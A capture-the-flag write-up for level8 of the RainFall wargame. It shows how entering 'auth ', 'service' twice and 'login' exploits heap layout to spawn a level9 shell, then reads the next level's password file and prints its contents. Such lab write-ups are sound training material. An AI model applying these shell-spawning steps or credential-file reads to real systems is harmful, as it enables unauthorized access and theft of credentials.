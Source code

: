 # level8

```sh
➜  ~ ssh level8@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level8@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level8/level8
level8@RainFall:~$
```

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
Rob Lucci
(nil), (nil)
Hattori
(nil), (nil)
^C
level8@RainFall:~$ ./level8 'Garp solo Blackbeard Crew'
(nil), (nil)
^C
level8@RainFall:~$
```

__This program is not like the others...__

![binary 8](Ressources/binary_8-hex-rays.png)

- 2 global variables : `char *auth` and `char *service` ([code lines 4 and 5](https://github.com/Nimpoo/rainfall/blob/main/level8/source))
- a variable `s` that will store our input with a buffer of 5 bytes
- The main was an infinite loop that read the input
- It prints the address of these 2 global variables
- `break` if `fgets` returns `NULL`, and attribute our input to the variable `s`
- If the input starts with `"auth "`, it allocates memory for `auth` and copies the input (excluding `"auth "`) into it
- If the input starts with `"reset"`, it frees the memory allocated for `auth`
- If the input starts with `"service"`, it allocates memory for `service` and copies the input (excluding `"service"`) into it
- If the input starts with `"login"`, it checks if `auth` is not `NULL` and if the 8th byte of `auth` is not `0`
- If both conditions are met, a `shell` is spawned
- Otherwise, it prints `"Password:\n"`
- The program continues to loop, reading and processing input until it is terminated

# Vulnerability: <u>Program Logic (simply)</u>

- First, we will pass `"auth "` to allocate memory for `auth` for complete the condition at [line 19](https://github.com/Nimpoo/rainfall/blob/main/level8/source). **AND DON'T FORGET THE `SPACE` AT THE END OF `"auth "`**
- Second, we will pass `"service"` to allocate memory for `service` just after the `auth` allocation in the heap. For each allocation in the heap, it it will be placed just after the last one.

---> Now, we have something for `auth[0]` to `auth[4]`

- Third, we will pass `"service"` again for the same reason as the second step.

---> We have something for `auth[0]` to `auth[8]` minimum

- Finally, we will pass `"login"` to spawn a shell if `auth[8]` is not `0`, and this is our case.

Let's do it !

```sh
level8@RainFall:~$ ./level8
(nil), (nil)
auth  # Don't forget the SPACE character at the end
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
$ 
```

# And that's it, we have a shell !

Let's get the flag !

```sh
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$
0x804a008, 0x804a028
level8@RainFall:~$
```

And go to the next level !

```sh
level8@RainFall:~$ su level9
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
level9@RainFall:~$
```

# level8 complet !
![yeah](../assets/yeah.gif)
